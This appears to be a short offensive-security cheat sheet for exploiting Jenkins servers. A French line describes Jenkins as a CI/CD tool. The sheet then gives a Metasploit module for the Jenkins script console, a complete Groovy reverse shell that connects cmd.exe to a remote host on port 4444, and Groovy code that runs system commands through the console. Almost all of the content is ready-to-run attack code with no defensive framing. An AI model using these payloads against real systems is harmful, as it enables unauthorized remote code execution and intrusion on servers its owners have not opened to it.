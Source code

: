 Utilisé pour créer des pipelines d'intégration continue/de développement continu qui permettent aux développeurs de déployer automatiquement leur code une fois qu'ils y ont apporté des modifications.

---

Exploitation using Metasploit Framework

```sh
msf6 > exploit/multi/http/jenkins_script_console
```

Exploiting Manually ( Groovy Revershell)

```sh
String host="10.11.86.29";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


Executing Shell Commands Directly

```sh
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'ipconfig'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```